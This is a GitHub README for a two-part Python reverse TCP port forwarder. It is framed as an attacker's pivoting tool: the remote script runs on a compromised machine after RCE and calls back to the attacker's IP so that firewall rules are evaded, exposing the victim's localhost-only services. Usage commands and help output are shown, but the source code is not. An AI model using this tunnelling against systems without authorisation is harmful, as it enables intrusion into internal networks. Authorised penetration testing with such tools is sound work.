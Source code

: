 # ReverseProxyPortForwarder

*linux and windows binaries available*

## Summary

This tool comes with two pieces that have to run *simultaneosly* on different machines :
- **local_portfwd**
- **remote_portfwd**
  
The concept is simple.  
These programs are creating a tunnel for tcp packets between two machine.    
The ***local port forward*** program should be running on your local machine, after being started it will be listening for the incoming tunnel connection handshake and on success it will open a service port.  
  
- **I've choosen a reverse connection logic (remote-attacked connecting to local-attacker) instead of a simple bind beacause it's better at escaping firewall rules.**  
  
Once the connection is established you are ready to forward packets to the remote machine by simply sending requests to the RPPF service address (ex. `localhost:4444`).  
Then the requests will be forwarded to the endpoint of the tunnel which is the ***remote port forward*** program.  
The remote forward script is a simple proxy and it will act on behalf of you, forwarding packets to the target address (which you must specifiy during startup).  
Look at bottom page for a simple example.  

## Help menu

`remote_portfwd.py` helper menu :
```shell
$ ./remote_portfwd.py -h
usage: remote_portfwd.py [-h] thost:tport fhost:fport

--------------------------------------
 Reverse Proxy Port Forwarder (Remote)
--------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on the remote (attacked) machine.
A tunnel will be created to the thost:tport address using a reverse 
connection logic, to bypass firewall. The data coming from the tunnel
will then be sent over a new connection to the forward address.
The tunnel address should be your RPPF local tunnel address.
Example : ./remote_portfwd.py localhost:4444 google.com:80
--------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Your local address to be contacted
  fhost:fport  The remote address to forward to

optional arguments:
  -h, --help   show this help message and exit
```
  
`local_portfwd.py` helper menu :
```shell
 $ ./local_portfwd.py -h
usage: local_portfwd.py [-h] thost:tport rhost:rport

-------------------------------------
 Reverse Proxy Port Forwarder (Local)
-------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on local (attacker) machine.
The program will be listening for the incoming tunnel connection from
remote_portfwd.py (thost:tport).
After the connection is established the RPPF is ready to forward data. 
Just send data to the service address.
-------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Tunnel address to listen to
  rhost:rport  The rppf address to listen to

optional arguments:
  -h, --help   show this help message and exit
```

## Simple use case

Let's suppose I want to get access to a web server listeining to 127.0.0.1:80 in a remote machine.  
Obviously I need rce, and a way to upload `remote_portfwd.py`.  
Once I got the program on the remote machine I can begin the attack.  
*Order is not important, you can run before or after `local_portfwd.py`. No matter.*  
  
On remote 
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)

```
Where `10.10.14.19` is my local IP address and `4444`  is the port where I want to create the RPPF tunnel.  
  
Then on your local machine
```shell
$ ./local_portfwd.py 10.10.14.19:4444 localhost:4242
Waiting for incoming tunnel connection...
Tunnel created
Opening rppf listening service...
--------------------------------------------
RPPF Service opened on ('localhost', 4242)
Ready to transfer data

```
Now the RPPF forward service is **ready and listening** on port 4242.  
`10.10.14.19` is the IP to bind to, can be also `0.0.0.0` to listen on every interface.
  
If you go back to remote console the output should have been updated :
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)
tunnel created
opening forward connection to ('localhost', 80)
connection created
--------------------------------------------
Ready to transfer data

```
This means that the also the remote service is **ready and running**.  
  
Now you can just type `localhost:4242` in your web browser to connect to the site as a localhost. :smile:  
  
***NOTE** : For an http request you may need to modify the HOST header (just intercept the request before being sent to layer 4).*
